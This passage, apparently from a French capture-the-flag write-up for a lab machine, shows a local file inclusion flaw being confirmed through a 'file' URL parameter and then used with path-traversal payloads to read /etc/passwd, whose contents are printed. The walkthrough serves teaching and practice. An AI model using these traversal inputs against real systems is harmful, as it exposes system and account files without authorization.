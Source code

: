 D'ailleurs on tente de voir le .htaccess comme ceci et ça marche : 

> http://10.129.102.34/?file=.htaccess

Et cela retourne :

```bash
RewriteEngine On RewriteCond %{THE_REQUEST} ^GET.*index\.php [NC] RewriteRule (.*?)index\.php/*(.*) /$1$2 [R=301,NE,L] # #AuthType Basic #AuthUserFile /var/www/html/.htpasswd #Require valid-user 
```

Ce qui montre bien qu'il y a inclusion de fichier et aucun filtrage. 

On va tenter d'afficher **/etc/passwd** pour voir:  

* http://10.129.102.34/?file=../../../etc/passwd
* http://10.129.102.34/?file=/etc/passwd

Cela marche aussi ! On fait ctrl + u pour avoir le contenu sous forme de lignes. et on le met dans un fichier sur notre disque avec vim. 

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
mike:x:1000:1000:mike:/home/mike:/bin/bash
tftp:x:110:113:tftp daemon,,,:/var/lib/tftpboot:/usr/sbin/nologin
```

On va filtrer un peu pour trouver des comptes. 
